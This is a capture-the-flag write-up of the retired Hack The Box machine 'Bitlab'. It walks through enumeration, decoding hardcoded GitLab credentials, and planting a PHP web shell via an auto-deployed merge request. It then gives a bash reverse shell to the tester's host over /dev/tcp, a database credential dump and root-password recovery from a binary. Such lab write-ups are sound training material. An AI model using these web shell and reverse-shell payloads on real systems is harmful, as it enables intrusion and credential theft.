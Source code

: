 # Bitlab

This is the write-up for the box Bitlab that got retired at the 11th January 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.114    bitlab.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/bitlab.nmap 10.10.10.114
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a login page to **GitLab Community Edition** which is a version control management for Git repositories.

![GitLab Homepage](https://kyuu-ji.github.io/htb-write-up/bitlab/bitlab_web-1.png)

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.114 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200,204,301,307,401,403
```

It found the following directory pages:
- /help (Status: 301)
  - Index page with _/bookmarks.html_
- /search (Status: 200)
- /profile (Status: 301)
  - Profile of a potential username: _clave_
- /public (Status: 200)
- /root (Status: 200)
  - Profile of Administrator, but has no projects or repositories
- /explore (Status: 200)
- /ci (Status: 301)

The _/help/bookmarks.html_ has different links to pages and one of them is called _"Gitlab login"_ but it has JavaScript in the source.
```javascript
function() {
    var _0x4b18 = ["\x76\x61\x6C\x75\x65", "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64", "\x63\x6C\x61\x76\x65", "\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64", "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

> NOTE: I beautified the code with [Beautifier.io](https://beautifier.io/)

It is obfuscated in hex and can be decoded with the **developer tools in any browser**:
```
Array(6) [ "value", "user_login", "getElementById", "clave", "user_password", "11des0081x" ]
```

The deobfuscated JavaScript runs two commands to set the _user_login_ and _user_password_:
```javascript
function(){
  document[getElementById](user_login)[value] = clave;
  document[getElementById](user_password)[value] = 11des0081x;
}
```

The credentials work on the **GitLab** portal and the user _clave_ has access to two repositories.

![GitLab Repositories](https://kyuu-ji.github.io/htb-write-up/bitlab/bitlab_web-2.png)

### Exploiting GitLab

The repository _Administrator/Deployer_ has an _index.php_ file in it, that runs `sudo git pull` on the _/root_ directory if a _merge request_ in the _Profile_ repository is done:
```php
<php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```

The repository _Administrator/Profile_ has many _merge requests_, so it looks like an automated task that a merge will automatically push.

![GitLab merge requests in Profile](https://kyuu-ji.github.io/htb-write-up/bitlab/bitlab_web-3.png)

Creating new branch on _Profile_:
```
+ --> New branch --> Give branch a name --> Create branch
```

Creating new file on _Profile_ on _new_branch_:
```
+ --> New file --> Create code to execute --> Commit changes
```

The code to execute will be a PHP web shell:
```
<?php
system($_REQUEST['cmd']);
?>
```

Creating _merge request_:
```
Create merge request --> Submit merge request --> Merge
```

Now _shell.php_ got merged to the _master branch_ and should be uploaded onto the webserver on _/profile/shell.php_:
```
http://10.10.10.114/profile/shell.php?cmd=whoami
```

The webshell works and shows the output of `whoami` as _www-data_.
Lets start a reverse shell:
```
POST /profile/shell.php HTTP/1.1
Host: 10.10.10.114
(...)
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

After URL-encoding the command and sending it, the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

The user _clave_ has one **Snippet on GitLab** called _Postgresql_ with credentials for the database:
```php
<php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

This snippet of code and `pg_fetch_all` can be used to get information out of the database with a PHP script:
```php
(...)
$results = pg_fetch_all($result);
print_r($results);
```

Running the PHP script:
```
php postgresql.php
```

It outputs the credentials of the user:
```
[id] => 1
[username] => clave
[password] => c3NoLXN0cjBuZy1wQHNz==
```

Base64-decoding the password:
```
echo -n c3NoLXN0cjBuZy1wQHNz== | base64 -d

ssh-str0ng-p@ss
```

The decoded password password does not work, but instead the Base64-encoded string from the database works on SSH and login as _clave_ on the box is successful.

### Privilege Escalation to root

The user _clave_ has a  Windows executable file called _RemoteConnection.exe_ in the home directory, so lets download that to our local client for analysis:
```
scp clave@10.10.10.114:RemoteConnection.exe .
```

The `strings` show some information that it runs **PuTTY** with the _ShellExecuteW_ call:
```
strings RemoteConnection.exe

strings -e l RemoteConnection.exe
```
```
(...)
GetUserNameW
ADVAPI32.dll
ShellExecuteW
SHELL32.dll
(...)
```
```
clave
C:\Program Files\PuTTY\putty.exe
open
```

Another string looks like Base64, but it decodes to a weird set of characters, which could be the obfuscated password:
```
echo -n XRIBG0UCDh0HJRcIBh8EEk8aBwdQTAIERVIwFEQ4SDghJUsHJTw1TytWFkwPVgQ2RztS | base64 -d
```
```
]
OPLER0D8H8!%K%<5O+VLV6G;R
```

As this is a Windows binary, it is recommended to debug it on a Windows Operating System.
After debugging it on Windows with **x32dbg** and searching for more strings, there is a password that is used with command line options from **PuTTY**:
```
ssh root@gitlab.htb -pw \"Qf7]8YSV.wDNF*[7d?j&eD4^\"
```

> Password of root: Qf7]8YSV.wDNF*[7d?j&eD4^

```
ssh 10.10.10.114
```

This password works on SSH and grants access to the box as root!
